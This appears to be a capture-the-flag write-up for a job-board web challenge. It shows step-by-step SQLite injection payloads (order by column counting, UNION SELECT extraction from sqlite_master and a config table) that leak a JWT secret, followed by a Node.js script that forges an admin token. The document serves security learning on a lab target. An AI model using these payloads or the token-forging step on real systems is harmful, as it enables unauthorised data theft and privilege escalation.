










<div style="background: #161b22; border: 1px solid #30363d; border-left: 8px solid #238636; border-radius: 10px; padding: 20px; margin: 20px 0; font-family: monospace;">
<h2><b>weekly challenge: 10/01/26 - 17/01/26</h2>
    <ul style="list-style: none; padding: 0; margin: 0; font-size: 1.2em; color: #8b949e;">
        <li>🟡 <b>difficulty:</b> <span style="color: #dfb52b;">medium</span></li>
        <li>⚡ <b>xp earned:</b> <span style="color: #d29922;">50</span></li>
        <li>📂 <b>categories:</b> <code>api</code>
        <li>🛠️ <b>vulns:</b> <code>sqlite injection</code>
    </ul>
</div>

## 0x00: recon
- opening the webapp, we see two options: login as a job seeker and login as a recruiter

    

- creating our job seeker user, we can improve our profile and access the dashboard

    

- when we look for jobs, there's made some requests to `/api/jobs/<id>` and `/api/jobs?search=` endpoints.

    

## 0x02: fuzzing

- testing for sql injection on both endpoints, we discover that `/api/jobs/<id>` endpoint is vulnerable with the payload: `1 or 1=1--` (probably sqlite database)

    

- we can start with `order by` queries and try to find out how many columns exists on that table. after try for a while, we discover there exists 16 columns. payload: `1 order by 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16--`

    

- now, with a `union select` query, we can extract informations from that table and from another tables. before this, lets confirm that we are really in a sqlite database. payload: `1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,sqlite_version(),16--`

    

- discovering all tables. payload: `1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,group_concat(tbl_name) FROM sqlite_master WHERE type='table'--`

    

- discovering columns of `config` table. payload: `1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,MAX(sql) FROM sqlite_master WHERE tbl_name='config'--`

    

- from the `key` column, we discover the jwt secret. now, we can write a script to generate an admin jwt and finally take the flag. payload: `1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,key||':'||value FROM config--`

    

## 0x03: show me the flag

- our script can be something like this:

    ```js
    const jwt = require('jsonwebtoken')
    const secret = 'phonesCheeseTiramisu1199'

    let payload = {
        "id": 6,
        "username": "ghu",
        "role": "admin",
        "iat": 1768580027
    }

    console.log(jwt.sign(payload, secret))
    ```
- writing the jwt at the local storage, we take the flag:

    